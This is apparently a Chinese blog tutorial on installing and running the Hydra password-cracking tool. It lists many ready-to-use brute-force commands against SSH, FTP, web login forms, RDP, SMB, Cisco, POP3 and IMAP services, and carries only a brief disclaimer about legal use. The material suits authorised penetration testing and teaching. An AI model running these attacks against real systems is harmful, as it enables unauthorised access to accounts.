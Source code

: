 ```yaml
---
layout: post
category: binghe-code-hack
title: 破解工具hydra安装与使用
tagline: by CurleyG
tag: [hack,binghe-code-hack]
excerpt: 破解工具hydra安装与使用
lock: need
---
```


# 破解工具hydra安装与使用

注：大家可以到链接[https://download.csdn.net/download/l1028386804/10902002](https://download.csdn.net/download/l1028386804/10902002 ) 下载Hydra一键安装包，内含冰河亲做一键安装脚本，直接运行即可。

**说明：** hydra是著名黑客组织thc的一款开源的暴力密码破解工具，可以在线破解多种密码。官网：http://www.thc.org/thc-hydra，可支持AFP, Cisco AAA, Cisco auth, Cisco enable, CVS, Firebird, FTP, HTTP-FORM-GET, HTTP-FORM-POST, HTTP-GET, HTTP-HEAD, HTTP-PROXY, HTTPS-FORM-GET, HTTPS-FORM-POST, HTTPS-GET, HTTPS-HEAD, HTTP-Proxy, ICQ, IMAP, IRC, LDAP, MS-SQL, MYSQL, NCP, NNTP, Oracle Listener, Oracle SID, Oracle, PC-Anywhere, PCNFS, POP3, POSTGRES, RDP, Rexec, Rlogin, Rsh, SAP/R3, SIP, SMB, SMTP, SMTP Enum, SNMP, SOCKS5, SSH (v1 and v2), Subversion, Teamspeak (TS2), Telnet, VMware-Auth, VNC and XMPP等类型密码。 这款暴力密码破解工具相当强大，支持几乎所有协议的在线密码破解，其密码能否被破解关键在于字典是否足够强大。对于社会工程型渗透来说，有时能够得到事半功倍的效果。本文仅从安全角度去探讨测试，请勿用于非法事件。

**安装：** 1.yum安装相应依赖包

```
# yum install openssl-devel pcre-devel ncpfs-devel postgresql-devel libssh-devel subversion-devel libncurses-devel
```

2.hydra编译安装

```
# cd /usr/local/src
# wget http://freeworld.thc.org/releases/hydra-6.3-src.tar.gz
# tar zxf hydra-6.3-src.tar.gz
# cd hydra-6.3-src
# ./configure
# make
# make install
```

**参数：**

```
hydra [[[-l LOGIN|-L FILE] [-p PASS|-P FILE]] | [-C FILE]] [-e ns]
[-o FILE] [-t TASKS] [-M FILE [-T TASKS]] [-w TIME] [-f] [-s PORT] [-S] [-vV] server service [OPT]
-R 继续从上一次进度接着破解。
-S 采用SSL链接。
-s PORT 可通过这个参数指定非默认端口。
-l LOGIN 指定破解的用户，对特定用户破解。
-L FILE 指定用户名字典。
-p PASS 小写，指定密码破解，少用，一般是采用密码字典。
-P FILE 大写，指定密码字典。
-e ns 可选选项，n：空密码试探，s：使用指定用户和密码试探。
-C FILE 使用冒号分割格式，例如“登录名:密码”来代替-L/-P参数。
-M FILE 指定目标列表文件一行一条。
-o FILE 指定结果输出文件。
-f 在使用-M参数以后，找到第一对登录名或者密码的时候中止破解。
-t TASKS 同时运行的线程数，默认为16。
-w TIME 设置最大超时的时间，单位秒，默认是30s。
-v / -V 显示详细过程。
server 目标ip
service 指定服务名，支持的服务和协议：telnet ftp pop3[-ntlm] imap[-ntlm] smb smbnt http-{head|get} http-{get|post}-form http-proxy cisco cisco-enable vnc ldap2 ldap3 mssql mysql oracle-listener postgres nntp socks5 rexec rlogin pcnfs snmp rsh cvs svn icq sapr3 ssh smtp-auth[-ntlm] pcanywhere teamspeak sip vmauthd firebird ncp afp等等。
OPT 可选项
```

**使用：** 1.手动创建用户名字典和密码字典，这里只是为了演示，只加了几个用户名和弱口令。真正破解时，需要利用密码字典生成器生成强大的字典

2.破解ssh：

```
# hydra -L users.txt -P password.txt -t 1 -vV -e ns 192.168.1.8 ssh
```

破解成功，直接显示结果。也可以使用 -o 选项指定结果输出文件。

```
# hydra -L users.txt -P password.txt -t 1 -vV -e ns -o save.log 192.168.1.104 ssh
```

其它实例：

1.破解ssh：

```
# hydra -l 用户名 -p 密码字典 -t 线程 -vV -e ns ip ssh
# hydra -l 用户名 -p 密码字典 -t 线程 -o save.log -vV ip ssh
```

2.破解ftp：

```
# hydra ip ftp -l 用户名 -P 密码字典 -t 线程(默认16) -vV
# hydra ip ftp -l 用户名 -P 密码字典 -e ns -vV
```

3.get方式提交，破解web登录：

```
# hydra -l 用户名 -p 密码字典 -t 线程 -vV -e ns ip http-get /admin/
# hydra -l 用户名 -p 密码字典 -t 线程 -vV -e ns -f ip http-get /admin/index.php
```

4.post方式提交，破解web登录：

```
# hydra -l 用户名 -P 密码字典 -s 80 ip http-post-form "/admin/login.php:username=^USER^&password=^PASS^&submit=login:sorry password"
# hydra -t 3 -l admin -P pass.txt -o out.txt -f 10.36.16.18 http-post-form "login.php:id=^USER^&passwd=^PASS^:wrong username or password"
（参数说明：-t同时线程数3，-l用户名是admin，字典pass.txt，保存为out.txt，-f 当破解了一个密码就停止， 10.36.16.18目标ip，http-post-form表示破解是采用http的post方式提交的表单密码破解,<title>中的内容是表示错误猜解的返回信息提示。）
```

5.破解https：

```
# hydra -m /index.php -l muts -P pass.txt 10.36.16.18 https
```

6.破解teamspeak：

```
# hydra -l 用户名 -P 密码字典 -s 端口号 -vV ip teamspeak
```

7.破解cisco：

```
# hydra -P pass.txt 10.36.16.18 cisco
# hydra -m cloud -P pass.txt 10.36.16.18 cisco-enable
```

8.破解smb：

```
# hydra -l administrator -P pass.txt 10.36.16.18 smb
```

9.破解pop3：

```
# hydra -l muts -P pass.txt my.pop3.mail pop3
```

10.破解rdp：

```
# hydra ip rdp -l administrator -P pass.txt -V
```

11.破解http-proxy：

```
# hydra -l admin -P pass.txt http-proxy://10.36.16.18
```

12.破解imap：

```
# hydra -L user.txt -p secret 10.36.16.18 imap PLAIN
# hydra -C defaults.txt -6 imap://[fe80::2c:31ff:fe12:ac11]:143/PLAIN
此工具强大之处远多于以上测试，其密码能否破解关键在于强大的字典，对于社工型渗透来说，有时能够得到事半功倍的效果
```

**附录：** 附录1:hydra: error while loading shared libraries: libssh.so.4: cannot open shared object file: No such file or directory 如果是ubuntu系统的话，直接apt-get install cmake libssl-dev就可以了。但我系统的centOS，没有找到libssl-dev这东西。因为手#动编译了libssh

```
# yum install cmake
# cd /usr/local/src
# wget http://www.libssh.org/files/0.4/libssh-0.4.8.tar.gz
# tar zxf libssh-0.4.8.tar.gz
# cd libssh-0.4.8
# mkdir build
# cd build
# cmake -DCMAKE_INSTALL_PREFIX=/usr -DCMAKE_BUILD_TYPE=Debug -DWITH_SSH1=ON ..
# make
# make install
# /sbin/ldconfig  //要执行这句，不然会出现hydra: error while loading shared libraries: libssh.so.4: cannot open shared object file: No such file or directory

# cd /usr/local/src
# wget http://freeworld.thc.org/releases/hydra-6.3-src.tar.gz
# tar zxf hydra-6.3-src.tar.gz
# cd hydra-6.3-src
# ./configure
# make
# make install
```


## 写在最后

> 如果你觉得冰河写的还不错，请微信搜索并关注「 **冰河技术** 」微信公众号，跟冰河学习高并发、分布式、微服务、大数据、互联网和云原生技术，「 **冰河技术** 」微信公众号更新了大量技术专题，每一篇技术文章干货满满！不少读者已经通过阅读「 **冰河技术** 」微信公众号文章，吊打面试官，成功跳槽到大厂；也有不少读者实现了技术上的飞跃，成为公司的技术骨干！如果你也想像他们一样提升自己的能力，实现技术能力的飞跃，进大厂，升职加薪，那就关注「 **冰河技术** 」微信公众号吧，每天更新超硬核技术干货，让你对如何提升技术能力不再迷茫！


![](https://img-blog.csdnimg.cn/20200906013715889.png)
